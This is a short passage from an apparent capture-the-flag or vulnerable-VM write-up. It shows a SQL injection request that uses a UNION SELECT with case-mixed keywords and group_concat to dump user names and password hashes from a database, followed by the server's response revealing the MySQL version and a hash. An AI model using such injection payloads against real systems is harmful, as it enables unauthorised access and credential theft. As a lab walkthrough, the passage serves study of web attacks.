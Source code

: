 #### Getting the data from *user* and *pass*
{% highlight html %}
GET /kzMb5nVYJw/420search.php?usrtosearch=admin"+UNION+ALL+SELECT+NULL,@@version,gRoUp_cOncaT(0x7c,user,0x7C,pass,0x7C)+fRoM+seth.users%23 HTTP/1.1

EMP ID :  <br> EMP NAME : 5.5.44-0+deb8u1 <br> EMP POSITION : |ramses|YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE|,|isis|--not allowed--| <br> --------------------------------<br>
{% endhighlight %}

Now we have the hash manually, no SQLMap required.

Nice box, thanks ly0n
